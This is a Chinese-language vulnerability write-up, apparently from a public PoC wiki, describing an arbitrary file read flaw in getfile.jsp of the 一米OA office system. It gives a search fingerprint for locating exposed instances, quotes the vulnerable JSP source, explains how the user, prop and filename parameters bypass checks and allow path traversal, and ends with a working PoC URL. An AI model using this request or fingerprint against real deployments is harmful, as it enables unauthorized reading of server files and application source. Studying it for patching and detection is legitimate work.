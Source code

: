 # 一米OA getfile.jsp 任意文件读取漏洞

## 漏洞描述

一米OA getfile.jsp文件过滤不足，导致任意文件读取漏洞

## 漏洞影响

<a-checkbox checked>一米OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="一米OA"</a-checkbox></br>

## 漏洞复现

产品页面

![img](/assets/PeiQi-Wiki/img/1628483166897-10963648-1494-4ea3-a76b-e5865f0d0f00.png)

出现漏洞的文件

```php
<%@ page contentType="text/html;charset=utf-8" %>
<%@page import="cn.js.fan.util.*" %>
<%@page import="cn.js.fan.web.Global" %>
<%@page import="com.redmoon.oa.*" %>
<%@page import="java.io.*" %>
<jsp:useBean id="fchar" scope="page" class="cn.js.fan.util.StrUtil"/>
<jsp:useBean id="fsecurity" scope="page" class="cn.js.fan.security.SecurityUtil"/>
<jsp:useBean id="privilege" scope="page" class="com.redmoon.oa.pvg.Privilege"/>
<%
    String user = ParamUtil.get(request, "user");
    if ("".equals(user)) {
        if (!privilege.isUserPrivValid(request, "read")) {
            System.out.println("警告非法用户，你无访问此页的权限！");
            return;
        }
    }

    String filename = ParamUtil.get(request, "filename");
    String extname = request.getParameter("extname");
    String prop = request.getParameter("prop");
    if (filename == null) {
        System.out.println("缺少文件名！");
        return;
    }

    filename = filename + "." + extname;

    Config cfg = new Config();
    String noticefilepath;
    if ("activex".equals(prop)) {
        noticefilepath = prop;
    } else {
        noticefilepath = cfg.get(prop);
    }

    String filePath = Global.getRealPath() + "/" + noticefilepath + "/" + filename;
    if ("li".equals(prop)) {
        filePath = Global.getRealPath() + "WEB-INF/" + prop + filename;
    }

    response.setContentType("application/" + extname);
    response.setHeader("Content-disposition", "attachment; filename=" + filename);

    BufferedInputStream bis = null;
    BufferedOutputStream bos = null;

    try {
        bis = new BufferedInputStream(new FileInputStream(filePath));
        bos = new BufferedOutputStream(response.getOutputStream());

        byte[] buff = new byte[2048];
        int bytesRead;

        while (-1 != (bytesRead = bis.read(buff, 0, buff.length))) {
            bos.write(buff, 0, bytesRead);
        }

    } catch (final IOException e) {
        System.out.println("出现IOException." + e);
    } finally {
        if (bis != null)
            bis.close();
        if (bos != null)
            bos.close();
    }

    out.clear();
    out = pageContext.pushBody();
%>
```

首先验证 user 传参是否为空, 需要对 user 参数任意赋值

```php
if ("".equals(user)) {
        if (!privilege.isUserPrivValid(request, "read")) {
            System.out.println("警告非法用户，你无访问此页的权限！");
            return;
        }
    }
```

接着接受3个参数 `filename, extname, prop`

```php
String filename = ParamUtil.get(request, "filename");
String extname = request.getParameter("extname");
String prop = request.getParameter("prop");
```

接着判断 prop 是否为 activex, 不等于则会去调用系统默认配置的路径
所以filename和extname这两个参数我们可以控制。构造请求前台任意文件读取

```php
String filePath = Global.getRealPath() + "/" + noticefilepath + "/" + filename;
    if ("li".equals(prop)) {
        filePath = Global.getRealPath() + "WEB-INF/" + prop + filename;
    }
```

验证POC

```php
/public/getfile.jsp?user=1&prop=activex&filename=../public/getfile&extname=jsp 
```

![img](/assets/PeiQi-Wiki/img/1628483231725-7feffe1e-0514-4149-8afc-57d0c9ce1dad.png)



若有收获，就点个赞吧